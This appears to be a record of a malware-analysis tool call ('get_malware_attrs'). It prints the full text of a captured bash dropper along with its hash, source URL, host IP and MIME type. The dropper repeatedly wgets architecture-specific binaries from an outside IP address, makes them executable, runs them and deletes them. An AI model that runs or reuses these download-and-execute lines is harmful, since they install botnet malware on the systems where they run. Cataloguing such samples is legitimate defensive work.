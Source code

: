 **Step ID:** `step_MEaxfgcZpmnN3LdoZCRsPet4`

**Function called:** `get_malware_attrs`

| Argument | Value |
| --- | --- |
| `malware_id` | `f03b5186bfc5f66608e1505f2a7f386900f54ebb810d7e8f3ac644bcb811bbed` |
| `attrs` | `['text', 'shasum', 'source_address', 'destfile', 'urls', 'hosts', 'num_bytes', 'mime_type']` |

| Output | Value |
| --- | --- |
| `text` | `#!/bin/bash
cd /tmp \|\| cd /var/run \|\| cd /mnt \|\| cd /root \|\| cd /; wget http://87.242.89.170/m-i.p-s.ISIS; chmod +x m-i.p-s.ISIS; ./m-i.p-s.ISIS; rm -rf m-i.p-s.ISIS
cd /tmp \|\| cd /var/run \|\| cd /mnt \|\| cd /root \|\| cd /; wget http://87.242.89.170/m-p.s-l.ISIS; chmod +x m-p.s-l.ISIS; ./m-p.s-l.ISIS; rm -rf m-p.s-l.ISIS
cd /tmp \|\| cd /var/run \|\| cd /mnt \|\| cd /root \|\| cd /; wget http://87.242.89.170/s-h.4-.ISIS; chmod +x s-h.4-.ISIS; ./s-h.4-.ISIS; rm -rf s-h.4-.ISIS
cd /tmp \|\| cd /var/run \|\| cd /mnt \|\| cd /root \|\| cd /; wget http://87.242.89.170/x-8.6-.ISIS; chmod +x x-8.6-.ISIS; ./x-8.6-.ISIS; rm -rf x-8.6-.ISIS
cd /tmp \|\| cd /var/run \|\| cd /mnt \|\| cd /root \|\| cd /; wget http://87.242.89.170/a-r.m-6.ISIS; chmod +x a-r.m-6.ISIS; ./a-r.m-6.ISIS; rm -rf a-r.m-6.ISIS
cd /tmp \|\| cd /var/run \|\| cd /mnt \|\| cd /root \|\| cd /; wget http://87.242.89.170/x-3.2-.ISIS; chmod +x x-3.2-.ISIS; ./x-3.2-.ISIS; rm -rf x-3.2-.ISIS
cd /tmp \|\| cd /var/run \|\| cd /mnt \|\| cd /root \|\| cd /; wget http://87.242.89.170/a-r.m-7.ISIS; chmod +x a-r.m-7.ISIS; ./a-r.m-7.ISIS; rm -rf a-r.m-7.ISIS
cd /tmp \|\| cd /var/run \|\| cd /mnt \|\| cd /root \|\| cd /; wget http://87.242.89.170/p-p.c-.ISIS; chmod +x p-p.c-.ISIS; ./p-p.c-.ISIS; rm -rf p-p.c-.ISIS
cd /tmp \|\| cd /var/run \|\| cd /mnt \|\| cd /root \|\| cd /; wget http://87.242.89.170/i-5.8-6.ISIS; chmod +x i-5.8-6.ISIS; ./i-5.8-6.ISIS; rm -rf i-5.8-6.ISIS
cd /tmp \|\| cd /var/run \|\| cd /mnt \|\| cd /root \|\| cd /; wget http://87.242.89.170/m-6.8-k.ISIS; chmod +x m-6.8-k.ISIS; ./m-6.8-k.ISIS; rm -rf m-6.8-k.ISIS
cd /tmp \|\| cd /var/run \|\| cd /mnt \|\| cd /root \|\| cd /; wget http://87.242.89.170/p-p.c-.ISIS; chmod +x p-p.c-.ISIS; ./p-p.c-.ISIS; rm -rf p-p.c-.ISIS
cd /tmp \|\| cd /var/run \|\| cd /mnt \|\| cd /root \|\| cd /; wget http://87.242.89.170/a-r.m-4.ISIS; chmod +x a-r.m-4.ISIS; ./a-r.m-4.ISIS; rm -rf a-r.m-4.ISIS
cd /tmp \|\| cd /var/run \|\| cd /mnt \|\| cd /root \|\| cd /; wget http://87.242.89.170/a-r.m-5.ISIS; chmod +x a-r.m-5.ISIS; ./a-r.m-5.ISIS; rm -rf a-r.m-5.ISIS
` |
| `shasum` | `f03b5186bfc5f66608e1505f2a7f386900f54ebb810d7e8f3ac644bcb811bbed` |
| `source_address` | `http://87.242.89.170/ISIS.sh` |
| `destfile` | `None` |
| `urls` | `['http://87.242.89.170/m-i.p-s.ISIS', 'http://87.242.89.170/m-p.s-l.ISIS', 'http://87.242.89.170/s-h.4-.ISIS', 'http://87.242.89.170/x-8.6-.ISIS', 'http://87.242.89.170/a-r.m-6.ISIS', 'http://87.242.89.170/x-3.2-.ISIS', 'http://87.242.89.170/a-r.m-7.ISIS', 'http://87.242.89.170/p-p.c-.ISIS', 'http://87.242.89.170/i-5.8-6.ISIS', 'http://87.242.89.170/m-6.8-k.ISIS', 'http://87.242.89.170/a-r.m-4.ISIS', 'http://87.242.89.170/a-r.m-5.ISIS', 'http://87.242.89.170/ISIS.sh']` |
| `hosts` | `{'87.242.89.170'}` |
| `num_bytes` | `1994` |
| `mime_type` | `text/x-shellscript` |
